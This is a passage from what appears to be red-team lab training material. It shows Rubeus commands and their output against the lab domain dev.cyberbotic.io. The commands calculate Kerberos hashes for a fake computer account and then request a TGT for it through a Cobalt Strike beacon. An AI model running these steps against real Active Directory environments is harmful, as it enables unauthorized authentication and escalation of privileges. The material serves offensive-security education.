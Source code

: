 
Rubeus `hash` can take that password and calculate their hashes.
```
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /password:oIrpupAtF1YCXaw /user:EvilComputer$ /domain:dev.cyberbotic.io

[*] Action: Calculate Password Hash(es)

[*] Input password             : oIrpupAtF1YCXaw
[*] Input username             : EvilComputer$
[*] Input domain               : dev.cyberbotic.io
[*] Salt                       : DEV.CYBERBOTIC.IOhostevilcomputer.dev.cyberbotic.io
[*]       rc4_hmac             : 73D0774058830F841C9205C857C9EE62
[*]       aes128_cts_hmac_sha1 : FB9A1AB8567D4EF4CEA6186A115D091A
[*]       aes256_cts_hmac_sha1 : 7A79DCC14E6508DA9536CD949D857B54AE4E119162A865C40B3FFD46059F7044
[*]       des_cbc_md5          : 49B5514F1F45700D
```
  

These can then be used with `asktgt` to obtain a TGT for the fake computer.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /aes256:7A79DCC14E6508DA9536CD949D857B54AE4E119162A865C40B3FFD46059F7044 /nowrap

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: 7A79DCC14E6508DA9536CD949D857B54AE4E119162A865C40B3FFD46059F7044
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\EvilComputer$'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF8j[...]MuaW8=

  ServiceName              :  krbtgt/dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  EvilComputer$
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  9/13/2022 2:31:34 PM
  EndTime                  :  9/14/2022 12:31:34 AM
  RenewTill                :  9/20/2022 2:31:34 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  /s6yAyTa1670VNAT9yYBGya/mqOU/YJSLu0XuD2ReBE=
  ASREP (key)              :  7A79DCC14E6508DA9536CD949D857B54AE4E119162A865C40B3FFD46059F7044
```
  

And the rest of the attack is the same.